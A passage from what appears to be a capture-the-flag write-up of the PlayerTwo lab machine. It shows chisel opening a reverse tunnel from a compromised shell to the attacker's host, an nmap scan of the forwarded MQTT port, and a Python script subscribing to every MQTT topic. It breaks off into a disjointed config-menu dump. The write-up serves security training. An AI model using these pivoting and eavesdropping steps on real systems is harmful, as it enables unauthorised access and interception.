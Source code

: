 ```

www-data@player2:/dev/shm$ chmod +x chisel 
<./chisel client 10.10.14.11:8000 R:1883:127.0.0.1:1883                      
2020/01/24 11:29:55 client: Connecting to ws://10.10.14.11:8000
2020/01/24 11:29:55 client: Fingerprint f4:91:8b:ac:f4:5d:6c:6f:c5:04:7d:07:6c:13:09:4a
2020/01/24 11:29:55 client: Connected (Latency 15.765675ms)

```

Now I can run `nmap` against my local 1883 and get the results from 1883 on PlayerTwo:

```

root@kali# nmap -sC -sV -p 1883 127.0.0.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-24 06:30 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000063s latency).

PORT     STATE SERVICE VERSION
1883/tcp open  mqtt
|_mqtt-subscribe: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds

```

It is an instance of the [MQTT](http://mqtt.org/) , a machine-to-machine connectivity protocol designed to provide lightweight public/subscript messaging.

### MQTT

Luckily for me, I had just recently completed a [challenge involving MQTT](/hackvent2019/hard#day-15) in Hackvent 2019. I grabbed the code I used for that challenge, and chopped out the password and transport, basically resetting it to the default connect. After updating the port/ip, I had the following:

```

#!/usr/bin/env python3

from datetime import datetime
import paho.mqtt.client as mqtt

def on_connect(mqttc, obj, flags, rc):
    print(f"Connecting")
    print("rc: " + str(rc))

def on_message(mqttc, obj, msg):
    print(f"[{datetime.now()}] {msg.topic} {str(msg.qos)} {str(msg.payload.decode())}")
    mqttc.loop_stop()

client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message
client.connect("127.0.0.1", 1883, 60, "")
client.subscribe(f"#")
try:
    client.loop_forever()
except KeyboardInterrupt:
    print()

```


 [ Game                ]: test
 [ Contrast            ]: 1
 [ Gamma               ]: 2
 [ Resolution X-Axis   ]: 3
 [ Resolution Y-Axis   ]: 4
 [ Controller          ]: 5
 [ Size of Description ]: 10
 [ Description         ]: descript
 [ Config Index    ]: 0
  [ Game                ]: test
  [ Contrast            ]: 1
  [ Gamma               ]: 2
  [ Resolution X-Axis   ]: 3
  [ Resolution Y-Axis   ]: 4
  [ Controller          ]: 5
  [ Description         ]: descript